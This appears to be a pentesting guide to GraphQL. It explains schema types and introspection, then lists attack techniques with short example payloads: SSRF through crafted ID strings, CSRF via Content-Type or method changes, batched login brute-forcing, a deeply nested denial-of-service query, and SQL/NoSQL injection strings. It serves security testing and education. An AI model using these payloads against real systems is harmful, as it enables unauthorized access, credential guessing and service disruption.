

# GraphQL overview

[GraphQL](https://spec.graphql.org/) is a query language designed to build client applications by providing an intuitive and flexible syntax and system for describing their data requirements and interactions. GraphQL uses a declarative approach to fetching data, clients can specify exactly what data they need from the API. As a result, GraphQL provides a single endpoint, which allows clients to get the necessary data, instead of multiple endpoints in the case of a REST API.



## GraphQL schema

GraphQL server uses a schema to describe the shape of available data. This schema defines a hierarchy of types with fields that are populated from back-end data stores. The schema also specifies exactly which queries and mutations are available for clients to execute.

Most of the schema types have one or more `fields`. Each field returns data of the `type` specified. Every type definition in a GraphQL schema belongs to one of the following categories:
- [Scalar](#scalar-types)
- [Object](#object-types), this includes the three special `root operation types`:
    - [Query](#query-types)
    - [Mutation](#mutation-types)
    - [Subscription](#subscription-types)
- [Input](#input-types)
- [Enum](#enum-types)
- [Union](#union-types)
- [Interface](#interface-types)

### Scalar types

Scalar types always resolve to concrete data. GraphQL provides the following default scalar types:
- `Int` a signed 32‐bit integer
- `Float` a signed double-precision floating-point value
- `String` a UTF‐8 character sequence
- `Boolean` true or false
- `ID` (serialized as a `String`) a unique identifier that's often used to refetch an object or as the key for a cache. Although it's serialized as a String, an ID is not intended to be human‐readable.

These primitive types cover the majority of use cases. However, it is possible to create [custom scalar types](https://graphql.org/learn/schema/#scalar-types).

### Object types

Most of the types in a GraphQL schema are object types. An object type contains a collection of `fields`, each of which has its own `type`. Two object types can include each other as fields.

### Query types

The `Query` type is a special object type that defines all of the top-level entry points for queries that clients execute against a server. Each field of the Query type defines the name and return type of a different entry point.

You can use the Query type to fetch data about users as follows:

```graphql
/**
 * Requests names of all users
 * You also can request another field, e. g. id or email
 */
query {
  allUsers {
    name
  }
}

/**
 * Requests a name of a user with id 1337
 * You also can request another field, e. g. id or email
 */
query {
  allUsers(id: 1337) {
    name
  }
}
```


All fields within the Query operation are requested parallelly.


```graphql
/**
 * getUserById and getUserByName will be requested parallelly
 */
query {
  getUserById { ... }
  getUserByName { ... }
}
```

### Mutation types

The `Mutation` type is similar in structure and purpose to the Query type. Whereas the Query type defines entry points for read operations, the Mutation type defines entry points for `write` operations. This type is optional. Each field of the Mutation type defines the signature and return type of a different entry point.

You can use the Mutation type to create a new user as follows:

```graphql
/**
 * Create new user
 * Requests id, name and email fields in a response
 */
mutation {
  createUser(name:"User", email: "user@website.com") {
    id
    name
    email
  }
}
```


Fields within the Mutation operation are requested sequentially.


```graphql
/**
 * The operations are invoked in the following sequence:
 *   1. createUser
 *   2. removeLastUser
 */
mutation {
  createUser { ... }
  removeLastUser { ... }
}
```

### Subscription types

The Subscription type is used for notifying users of any changes, which have occured in a system. This type is optional.

The Subscription type works the following way:
- A client subscribes on some action and creates a connection with the server (commonly via WebSocket).
- When this action is occured the server sends a notification via the created connection.

You can subscribe to create a new user as follows:

```graphql
/**
 * When a new user will be created
 * The server sends the name and email of the new user to a client
 */
subscription {
  newUser {
    name
    email
  }
}
```

### Input types

`Input` types are special object types that allow you to provide hierarchical data as arguments to fields (as opposed to providing only flat scalar arguments). Each field of an input type can be only a scalar, an enum, or another input type.

### Enum types

The `Enum` is similar to a scalar type, but its legal values are defined in the schema. Enums are most useful in situations where the user must pick from a prescribed list of options.

### Union types

The `Union` type declares which object types are included in the union. A field can have a union (or a list of that union) as its return type. In this case, it can return any object type that's included in the union.

All of a union's included types must be object types (not scalars, input types, etc.).

### Interface types

An interface specifies a set of fields that multiple object types can include. If an object type implements an interface, it must include all of that interface's fields.

A field can have an interface (or a list of that interface) as its return type. In this case, it can return any object type that implements that interface.

## Introspection schema

GraphQL defines the introspection schema, which is used to ask a GraphQL for information about what queries it supports. You can fetch introspection schema with the following query:



You can also use various GraphQL IDEs or GraphQL Voyager for introspection.



However, developers can forbid introspection of their applications. In this case, you can try to obtain the schema with the `clairvoyance`.



### How to read an introspection schema?

Typically, an introspection schema looks as the following one:

```json
{
  "data": {
    "__schema": {
      "queryType": {
        "name": "Query"
      },
      "mutationType": {
        "name": "Mutation"
      },
      "subscriptionType": {
        "name": "Subscription"
      },
      "types": [ ... ],
      "directives": [ ... ]
    }
  }
}
```

- The `queryType`, `mutationType`, `subscriptionType` define the names of fields that contain list of corresponding queries supported by an application. In other words, if the `queryType` name is `QueryRoot` you can find all supported the Query types inside the element of the `data.__schema.types` list with `QueryRoot` name.
- The `types` contains all supported variables and queries.
- The `directives` contains a list of supported [directives](https://graphql.org/learn/queries/#directives).

For example, the following schema defines the `User` object and the `allUsers` query that returns the list of `Users`:

```json
{
  "data": {
    "__schema": {
      "queryType": {
        "name": "QueryRoot"
      },
      "types": [
        {
          "name": "User",
          "kind": "OBJECT",
          "fields": [
            {
              "name": "name",
              "type": {
                "name": "String",
                "kind": "SCALAR"
              }
            }
          ]
        },
        {
          "name": "QueryRoot",
          "kind": "OBJECT",
          "fields": [
            {
              "name": "allUsers",
              "description": "Returns all users.",
              "args": [],
              "type": {
                "name": null,
                "kind": "LIST",
                "ofType": {
                  "name": "User",
                  "kind": "OBJECT",
                  "ofType": null
                }
              }
            }
          ]
        }
      ]
    }
  }
}
```

# Security issues

## Abuse GraphQL as an API gateway

GraphQL resolvers can be implemented as a REST API gateway and use the provided parameters to craft and send requests to the API. It the parameters are not validated properly resolvers can be vulnerable to SSRF.

Suppose, the GrapghQL scheme contains a query that provide information about an user by ID:

```graphql
type Query {
    userByID(id: ID!):User
}

type User {
    id: ID!
    name: String!
    friends: [User!]!
}
```

The resolver can look like this (pseudocode):

```python
results = client.get('https://api.website.internal/users/{id}')
return result.data
```

In this case, you can send request with the following queries:

```graphql
{
    firstFriend: userByID(id: "1337/friends/1"){
        id
        name
    }
    secondFriend: userByID(id: "1337/friends/2"){
        id
        name
    }
}
```

This results in the following GET requests:

```http
https://api.website.internal/users/1337/friends/1
https://api.website.internal/users/1337/friends/2
```

This is possible since the ID Scalar should be [serialized as a string](https://spec.graphql.org/June2018/#sec-ID) and "1337/friends/1" is a valid string.

## Abuse GraphQL engine

GraphQL engines are used to implement GraphQL API. The engines can have vulnerabilities or be misconfigured.

In order to determine which engine is used you can use the `graphw00f`.



## Broken access control

GraphQL does not define any access control by design. Developers implement an access contol inside resolve-methods and a business logic code. So try to bypass access control checks with the techniques used in the case of the REST API.

References:
- [Report: Confidential data of users and limited metadata of programs and reports accessible via GraphQL](https://hackerone.com/reports/489146)
- [Report: Insufficient Type Check leading to Developer ability to delete Project, Repository, Group, ...](https://gitlab.com/gitlab-org/gitlab/-/issues/239348)
- [Report: Insufficient Type Check on GraphQL leading to Maintainer delete repository](https://gitlab.com/gitlab-org/gitlab/-/issues/215703)
- Tool: [AutoGraphQL](https://graphql-dashboard.herokuapp.com/) + [How to use guide](https://www.youtube.com/watch?v=JJmufWfVvyU)

## Bypass of CSRF protection

### Change Content-Type by [@inhibitor181](https://mobile.twitter.com/intigriti/status/1416363312296734720)

Try to change the `Content-Type` header to get CSRF:

```http
POST /api/graphql HTTP/1.1
Content-Type: application/json

{"query":"mutation ..."}
```

```http
POST /api/graphql HTTP/1.1
Content-Type: application/x-www-form-urlencoded

query=mutation...
```

### Change HTTP method

Try to send `GET` requests instead of `POST` ones to get CSRF.

References:
- [Report: CSRF on /api/graphql allows executing mutations through GET requests](https://hackerone.com/reports/1122408)

## Bypass of rate limits

The GraphQL specification allows multiple requests to be sent in a single request by batching them together. If the developers did not implement some mechanism to prevent the sending of batch requests, you could potentially bypass the rate limit by sending queries in a single request.

```graphql
mutation { login(input: { user:"a", password:"password" }) { success } }
mutation { login(input: { user:"b", password:"password" }) { success } }
....
mutation { login(input: { user:"z", password:"password" }) { success } }
```

## Denial of service

By default GraphQL does not restrict length of queries. The GraphQL queries can be nested one inside the other and create cascading requests to the database. As a result, nested queries can be performed in order to cause a denial of service attack:

```graphql
query {
  posts {
    title
    comments {
      comment
      user {
        comments {
          user {
            comments {
              comment
              user {
                comments {
                  comment
                  user {
                    comments {
                      comment
                      user {
                      ...
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

## Excessive errors

GraphQL has a [nice and expressive way of returning errors](https://spec.graphql.org/June2018/#sec-Errors). However, error messages can be too informative. Try to cause errors, for instance by fuzzing parameters, error messages can reveal details about the error, actual paths on the system, chunks of code or queries, etc.

## GraphQL injection

Even though GraphQL is strongly typed, SQL, NoSQL and Command injections are still possible since GraphQL is just a layer between a client and backend.

```graphql
mutation { 
    login(input: {
        user: "admin", 
        password: "password' or 1=1 -- -"
    }) { 
        success
    } 
}

mutation {
    users(search: "{password: { $regex: \".*\"}, name:Admin }") {
        id
        name
        password
    }
}
```

## Information disclosure

Often the GraphQL API is exposed a lot of information, such private data, debug information, hidden data or stacktraces.

References:
- [Team object in GraphQL disclosed total number of whitelisted hackers](https://hackerone.com/reports/342978)
- [Team object exposes amount of participants in a private program to non-invited users](https://hackerone.com/reports/380317)

# References

- [GraphQL Specification](https://spec.graphql.org/)
- [Practical GraphQL attack vectors](https://jondow.eu/practical-graphql-attack-vectors/)
- [Public GraphQL APIs](https://github.com/APIs-guru/graphql-apis)
- [Apollo Docs: GraphQL schema basics](https://www.apollographql.com/docs/apollo-server/schema/schema/)
